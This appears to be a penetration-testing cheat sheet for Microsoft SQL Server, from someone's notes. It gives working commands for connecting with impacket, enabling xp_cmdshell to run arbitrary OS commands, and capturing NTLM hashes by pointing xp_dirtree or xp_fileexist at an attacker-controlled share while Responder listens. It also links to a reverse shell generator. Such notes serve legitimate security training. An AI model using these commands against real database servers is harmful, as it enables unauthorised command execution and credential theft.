 # Microsoft SQL Server
Microsoft SQL Server is a relational database management system (RDBMS) made by Microsoft.

## Port
1433

## Connecting
```bash
impacket-mssqlclient <Username>@<IP> -windows-auth
```

## RCE using `xp_cmdshell`
If the following command returns 1, the account has sysadmin privileges and can run remote commands via `xp_cmdshell`.
```bash
SELECT IS_SRVROLEMEMBER('sysadmin') #1
```
If you have sysadmin privileges, you can enable xp_cmdshell and run arbitrary commands by executing
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell '<Command>';
```

## Capture NTLM hashes using Responder and `xp_dirtree` or `xp_fileexist`
If you do not have sysadmin privileges, you can use Responder with xp_dirtree or xp_fileexist to capture NTLM hashes.
```bash
sudo responder -I tun0 #another terminal

SELECT IS_SRVROLEMEMBER('sysadmin') #0
EXEC xp_dirtree '\\<IP>\<Share>' # or '//<IP>/<Share>'
# EXEC xp_fileexist '\\<IP>\<Share>' or '//<IP>/<Share>'
```

# Reference
[Microsoft SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[Reverse shell generator](https://www.revshells.com/)
